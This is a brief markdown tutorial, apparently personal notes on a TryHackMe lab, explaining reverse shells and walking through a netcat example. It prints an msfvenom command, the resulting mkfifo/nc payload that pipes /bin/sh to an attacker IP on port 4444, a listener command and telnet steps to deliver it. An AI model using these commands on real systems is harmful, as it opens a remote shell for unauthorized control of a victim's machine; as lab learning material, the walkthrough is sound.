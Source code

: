 # Reverse Shell

## Shell
A **shell** can simply be described as a piece of code or program which can be used to gain code or command execution a a device.

A **reverse shell** is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listening port, on which it receives connection, resulting in code or command execution being achieved.

## Example of Reverse Shell
1. Create a pipe which is the ouput as a paylod from `msfvenom` program
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.21.199.67 lport=4444 R
```
Where, `lhost` is local host IP address and `lport` is the port number.
The program will generate payload like below:
```bash
mkfifo /tmp/gcsu; nc 10.21.199.67 4444 0</tmp/gcsu | /bin/sh >/tmp/gcsu 2>&1; rm /tmp/gcsu
```
2. Now create a listener in the Local computer and use the port number which was used to make the `payload`
```bash
nc -lvnp 4444
```
3. Connect to the target using `telnet` program
```bash
telnet 10.10.39.115 8012
```
4. Paste the whole payload generated by the `msfvenom` 
```bash
.RUN 

mkfifo /tmp/gcsu; nc 10.21.199.67 4444 0</tmp/gcsu | /bin/sh >/tmp/gcsu 2>&1; rm /tmp/gcsu
```
5. Now the nc (or netcat) program will connected to the target and allow us to interact with the target machine

> Source: https://tryhackme.com/room/networkservices
